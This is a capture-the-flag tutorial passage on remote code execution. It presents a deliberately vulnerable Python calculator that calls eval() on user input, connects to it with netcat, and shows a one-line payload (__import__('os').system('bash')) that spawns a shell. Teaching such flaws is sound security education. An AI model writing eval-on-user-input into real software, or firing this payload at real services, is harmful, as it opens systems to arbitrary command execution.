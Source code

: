 ### Remote Code Execution

Itching to pop a shell yet? In this practical example, you'll finally get to.
Take a look at the following code:

```python
#! /usr/bin/python

import sys

def write(data):
    sys.stdout.write(data)
    sys.stdout.flush()

def main():
    write("SuperCalculator (e.g. 2+2): ")
    eqn = sys.stdin.readline().strip()
    answer = eval(eqn)
    write("%s = %s\n" % (eqn, answer))

if __name__ == "__main__":
    main()
```

Let's see what it does when you interact with it legitimately.

```
elliot@ctf101-shell:~/ctf101$ nc pwn.spro.ink 1341
SuperCalculator (e.g. 2+2): 4+4
4+4 = 8
elliot@ctf101-shell:~/ctf101$
```

Seems like it is a simple calculator. But let's take a look at a particularly
suspicious line:

```python
    answer = eval(eqn)
```

Now, whenever a script uses an evaluate statement over user supplied input an
exploitable bug is bound to be discovered within. In this case, arbitrary python
code can be written as payload to spawn a remote shell. However, we have to be
very careful to write it as one line due to the nature of the code. Try to get a
usable shell!

There are multiple solutions, but here is one:

```console
$ python codeexec.py
SuperCalculator (e.g. 2+2): __import__("os").system("bash")
$
```

### Privilege Escalation
